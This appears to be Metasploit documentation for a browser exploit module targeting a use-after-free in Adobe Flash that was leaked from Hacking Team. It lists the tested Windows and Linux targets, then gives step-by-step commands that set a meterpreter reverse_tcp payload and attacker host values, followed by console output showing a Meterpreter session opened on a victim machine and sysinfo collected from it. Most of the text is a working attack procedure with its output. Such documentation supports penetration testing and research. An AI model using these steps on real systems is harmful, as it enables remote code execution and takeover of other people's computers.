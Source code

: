 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:

1. Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
2. Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194.
3. Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
4. Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194.
5. Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

### IE 11 and Flash 18.0.0.194

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf 
msf exploit(adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set LHOST 172.16.178.160
LHOST => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.80
srvhost => 172.16.178.80
msf exploit(adobe_flash_hacking_team_uaf) > set SRVPORT 80
SRVPORT => 80
msf exploit(adobe_flash_hacking_team_uaf) > set URIPATH /
URIPATH => /
msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(adobe_flash_hacking_team_uaf) > [*] Local IP: http://127.0.0.1:80/
[*] Server started.

msf exploit(adobe_flash_hacking_team_uaf) > 
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Gathering target information.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML response.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML...
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/AsvCG.swf
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending SWF...
[*] Sending stage (957999 bytes) to 172.16.178.80
[*] Meterpreter session 1 opened (172.16.178.160:4444 -> 172.16.178.80:49167) at 2017-03-26 22:51:29 +0900

msf exploit(adobe_flash_hacking_team_uaf) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN7X64TJ7XH-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
```
